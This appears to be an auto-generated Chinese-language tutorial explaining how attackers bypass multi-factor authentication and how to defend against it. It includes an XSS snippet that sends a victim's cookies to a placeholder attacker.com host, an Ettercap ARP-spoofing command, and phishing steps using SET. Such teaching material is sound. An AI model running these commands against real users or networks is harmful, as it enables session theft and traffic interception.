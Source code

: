 # 多因素认证绕过的基本概念

## 1. 引言

多因素认证（Multi-Factor Authentication, MFA）是一种安全机制，要求用户在登录时提供两种或更多的验证因素，通常是“你知道的”（如密码）、“你拥有的”（如手机或硬件令牌）和“你是什么”（如指纹或面部识别）。尽管MFA显著提高了账户的安全性，但它并非绝对安全。攻击者可以通过各种手段绕过MFA，从而获得未授权访问。

本文将深入探讨多因素认证绕过的基本原理、类型、危害，并提供详细的技术解析和实战演练内容。

## 2. 多因素认证绕过的基本原理

### 2.1 MFA的底层实现机制

MFA通常由以下几个组件构成：

1. **认证服务器**：负责验证用户提供的认证因素。
2. **认证客户端**：用户使用的设备或应用程序，用于接收和输入认证因素。
3. **认证因素**：包括密码、一次性密码（OTP）、硬件令牌、生物特征等。

MFA的绕过通常涉及攻击者利用这些组件中的漏洞或弱点，从而绕过或欺骗认证过程。

### 2.2 绕过MFA的基本原理

MFA绕过的基本原理可以分为以下几类：

1. **会话劫持**：攻击者通过窃取用户的会话令牌，绕过MFA验证。
2. **社会工程**：攻击者通过欺骗用户提供MFA验证码或令牌。
3. **漏洞利用**：攻击者利用MFA实现中的漏洞，绕过或禁用MFA。
4. **中间人攻击**：攻击者在用户和认证服务器之间插入自己，截获或篡改认证信息。

## 3. 多因素认证绕过的类型

### 3.1 会话劫持

会话劫持是绕过MFA的常见手段。攻击者通过窃取用户的会话令牌，可以在用户完成MFA验证后，直接访问受保护的资源。

**技术解析**：
- **会话固定攻击**：攻击者通过诱使用户使用已知的会话ID，从而在用户完成MFA后劫持会话。
- **跨站脚本攻击（XSS）**：攻击者通过注入恶意脚本，窃取用户的会话令牌。

**实战演练**：
1. **环境搭建**：使用DVWA（Damn Vulnerable Web Application）搭建一个包含MFA的Web应用。
2. **攻击步骤**：
   - 利用XSS漏洞注入恶意脚本，窃取用户的会话令牌。
   - 使用窃取的会话令牌访问受保护的资源。

**命令示例**：
```javascript
// 恶意脚本示例
var img = new Image();
img.src = "http://attacker.com/steal?cookie=" + document.cookie;
```

### 3.2 社会工程

社会工程攻击通过欺骗用户提供MFA验证码或令牌，从而绕过MFA。

**技术解析**：
- **钓鱼攻击**：攻击者通过伪造的登录页面或电子邮件，诱使用户输入MFA验证码。
- **SIM卡交换**：攻击者通过欺骗移动运营商，将用户的手机号码转移到自己的SIM卡上，从而接收MFA验证码。

**实战演练**：
1. **环境搭建**：使用SET（Social-Engineer Toolkit）创建一个伪造的登录页面。
2. **攻击步骤**：
   - 向目标用户发送伪造的登录链接。
   - 诱使用户输入MFA验证码。
   - 使用窃取的验证码登录目标账户。

**命令示例**：
```bash
# 使用SET创建钓鱼页面
setoolkit
```

### 3.3 漏洞利用

MFA实现中的漏洞可能被攻击者利用，从而绕过或禁用MFA。

**技术解析**：
- **逻辑漏洞**：攻击者通过分析MFA的实现逻辑，找到绕过验证的方法。
- **时间窗口攻击**：攻击者利用OTP生成和验证之间的时间窗口，重复使用已过期的OTP。

**实战演练**：
1. **环境搭建**：使用Burp Suite分析MFA的实现逻辑。
2. **攻击步骤**：
   - 分析MFA的请求和响应，寻找逻辑漏洞。
   - 利用漏洞绕过或禁用MFA。

**命令示例**：
```bash
# 使用Burp Suite进行漏洞分析
burpsuite
```

### 3.4 中间人攻击

中间人攻击通过在用户和认证服务器之间插入攻击者，截获或篡改认证信息。

**技术解析**：
- **ARP欺骗**：攻击者通过ARP欺骗，将网络流量重定向到自己的设备。
- **SSL剥离**：攻击者通过剥离SSL/TLS加密，截获明文认证信息。

**实战演练**：
1. **环境搭建**：使用Ettercap进行ARP欺骗。
2. **攻击步骤**：
   - 使用Ettercap进行ARP欺骗，将目标用户的流量重定向到攻击者的设备。
   - 截获或篡改MFA认证信息。

**命令示例**：
```bash
# 使用Ettercap进行ARP欺骗
ettercap -T -i eth0 -M arp:remote /192.168.1.1// /192.168.1.2//
```

## 4. 多因素认证绕过的危害

MFA绕过可能导致以下危害：

1. **未授权访问**：攻击者可以访问受保护的资源，窃取敏感信息。
2. **账户劫持**：攻击者可以完全控制用户的账户，进行恶意操作。
3. **数据泄露**：攻击者可以窃取用户的个人信息、财务数据等。
4. **声誉损害**：企业可能因安全事件而失去客户信任，导致声誉受损。

## 5. 防御措施

为了防止MFA绕过，可以采取以下防御措施：

1. **加强会话管理**：使用安全的会话管理机制，防止会话劫持。
2. **用户教育**：提高用户的安全意识，防止社会工程攻击。
3. **漏洞修复**：定期进行安全审计，修复MFA实现中的漏洞。
4. **加密通信**：使用SSL/TLS加密通信，防止中间人攻击。

## 6. 结论

多因素认证绕过是一个复杂且严重的安全问题。攻击者可以通过会话劫持、社会工程、漏洞利用和中间人攻击等手段绕过MFA，从而获得未授权访问。了解这些攻击手段的原理和防御措施，对于保护系统和用户的安全至关重要。

通过本文的技术解析和实战演练，读者可以深入了解多因素认证绕过的基本概念，并掌握相关的攻击和防御技术。希望本文能为Web安全知识库的建设和实际应用提供有价值的参考。

---

*文档生成时间: 2025-03-12 14:37:47*
